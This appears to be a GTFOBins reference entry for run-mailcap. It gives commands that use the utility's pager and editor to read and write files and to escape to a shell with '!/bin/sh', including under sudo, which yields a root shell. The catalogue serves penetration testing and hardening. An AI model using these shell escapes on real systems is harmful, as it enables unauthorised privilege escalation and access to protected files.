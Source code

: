 ```yaml
---
name: run-mailcap
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        run-mailcap --action=view /etc/hosts
        !/bin/sh
  file-read:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: run-mailcap --action=view file_to_read
  file-write:
    - description: |
        The file must exist and be not empty.

        This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply.
      code: run-mailcap --action=edit file_to_read
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo run-mailcap --action=view /etc/hosts
        !/bin/sh
---
```

